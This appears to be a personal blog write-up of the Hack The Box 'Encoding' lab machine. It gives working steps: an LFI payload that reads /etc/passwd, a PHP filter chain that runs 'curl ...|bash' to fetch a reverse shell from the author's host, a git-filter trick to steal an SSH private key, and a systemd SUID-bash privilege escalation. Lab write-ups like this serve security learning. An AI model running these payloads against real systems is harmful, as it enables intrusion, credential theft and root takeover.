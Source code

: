 ```yaml
---
title: "Hack The Box - Encoding [Medium]"
date: 2023-02-17T02:01:27+03:00
draft: false
description: 
---
```


This machine took me a couple of days due to its complexity and some minor stuff that were a hassle to get right.

You will find the following vulnerabilities:
	- [Local File Inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
	- [Command Injection or RCE](https://book.hacktricks.xyz/pentesting-web/command-injection)

# Flag 1

I started by looking through the website to get some idea of its functionality. I saw that this is some sort of converter of data, like binary to hex and so on. But the interesting part was this:

>If required, you can specify a URL that will return data to be converted with the `file_url` parameter. This can be done for both string and integer convertions.

That quickly reminded me of local/remote file inclusion, and so I've tried it with the following payload:

```python
json_data = {
	'action': 'b64encode',
	'file_url' : 'file:///etc/passwd'
}
```

That gave me the contents of the `/etc/passwd` file encoded in base64, I used `base64 -d` to decode it. From there I saw another user `svc`.

I was also curious what's in the `/var/www/` directory, so I began enumerating the directory.

I ran `ffuf` on the main website `haxtables.htb/FUZZ` also ran `ffuf` for subdomain discovery.

```
$ ffuf -w $disc_wc/raft-small-directories-lowercase.txt -u http://haxtables.htb/FUZZ

$ ffuf -w $disc_wc/common.txt -u http://haxtables.htb/ -H "Host: FUZZ.haxtables.htb" -fs 1999
```

With those I found `api, image` subdomains, so I inspected them via the LFI vulnerability `/var/www/image/index.php` to check whether this application uses some kind of database or eventually some useful things. I found that `image` domain contains a git repository (through `git_status, git_log, git_commit` functions in `/var/www/image/index.php -> uitls.php`). This led me to believe that I could use that to gain user privileges later on. I decided to dump the repository and bear with me here I did it in the most ghetto way possible, through a local server that acted as a proxy for `gitdumper.sh`

```python
import requests
import json
from flask import Flask
import base64


app = Flask(__name__)


@app.route('/<path:filepath>')
def index(filepath):
    json_data = {
        'action': 'b64encode',
        'file_url' : "file://" + "/var/www/image/" + filepath
    }
    response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    d = json.loads(response.text.strip())
    res = base64.b64decode(d["data"])
    return res
```

```
$ gitdumper.sh http://localhost:5000/.git/ ./dump_repo
```

Then I used the `git ls-files` to figure what other files are in the folder.

```
$ git ls-files
actions/action_handler.php
actions/image2pdf.php
assets/img/forestbridge.jpg
includes/coming_soon.html
index.php
scripts/git-commit.sh
utils.php
```

I saw the `actions/action_handler.php` source code by using the LFI vulnerability.

```php
<?php
include_once 'utils.php';
if (isset($_GET['page'])) {
    $page = $_GET['page'];
    include($page); # <-- BruhMoment
} else {
    echo jsonify(['message' => 'No page specified!']);
}
?>
```

It is pretty obvious that this code is vulnerable to LFI, and I can use it to gain a reverse shell through PHP Filters. But I can't access this page directly, so I can use the first LFI to execute this LFI to execute the PHP filters RCE... 

And this is me figuring out this after 2 days of trying...

![rwojak](/random/rwojak.jpg)

I generated a payload with the [PHP filter chain generator](https://github.com/synacktiv/php_filter_chain_generator).

```
$ python3 php_filter_chain_generator.py --chain '<?= `curl http://myIp/rev_bash_norm.sh|bash` ;?>'
```

And I hosted a web server containing the `rev_bash_norm.sh`, I won't show the full monstrosity of the generated filter request but in the end it looked like this:

```http
POST /v3/tools/string/index.php HTTP/1.1
Host: api.haxtables.htb
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 12920

{
    "action": "b64encode",
    "file_url" : "email@image.haxtables.htb/actions/action_handler.php?page=php://filter/<bruhmoment>"
}
```

Whenever executed, this request will spawn a reverse shell.

The `www-data` to `svc(user)` was honestly too much for me, and I turned to some write-ups. 

> The next section is what I've tried and failed, feel free to skip it.

`<i-tried-this>`
I was pretty sure that it has something to do with the `git` scripts and I only had `rwxr-xr-x` permissions of the `.git` folder, so I've tried to simulate file edit by using the dumped repository and change all the files in the `.git` directory on the server. 

And that was kinda the right approach, but I didn't notice the `ssh` keys that I needed to retrieve, so I was hard stuck at this, and I went to some write-ups. 

`</i-tried-this>`

Check [gatogamer1155](https://gatogamer1155.github.io/htb/encoding/)'s write-up for gaining access to the user and retrieve the first flag.

TLDR: 
* Creates an executable file `/tmp/readkey` with a content that reads the 
`~/.ssh/id_rsa` file and saves it to file. 
- Creates a git attributes file with a new filter called indent:  `'*.php filter=indent'` 
- Sets the Git configuration `filter.indent.clean` to the command `/tmp/readkey`. This tells Git to apply the `indent` filter to files ending in `.php` and to use the `/tmp/readkey` command to process the filter.
- Execute the `/var/www/image/scripts/git-commit.sh` with `sudo -u svc`
- The filter is then applied, and you can read the private key file.

> **NOTE:** Make sure that whenever you save the private key on your machine add an empty line at the end of the file otherwise you will get an error!

After logging with the `svc` user, you can read the first flag.

# Flag 2

Honestly, this was too easy, but I didn't mind it since I spent too much time doing this box. 

Executing the `sudo -l` would give you the executables that you can execute as root.

```
(root) NOPASSWD: /usr/bin/systemctl restart *
```

I had to create a service that looks like that and place it under `/etc/systemd/system/syl.service`

```toml
[Service]
Type=simple
ExecStart=chmod +s /bin/bash
[Install]
WantedBy=multi-user.target
```

And simply execute:

```
$ sudo /usr/bin/systemctl restart syl
$ bash -p
bash-5.1# cat root/root.txt
. . .
```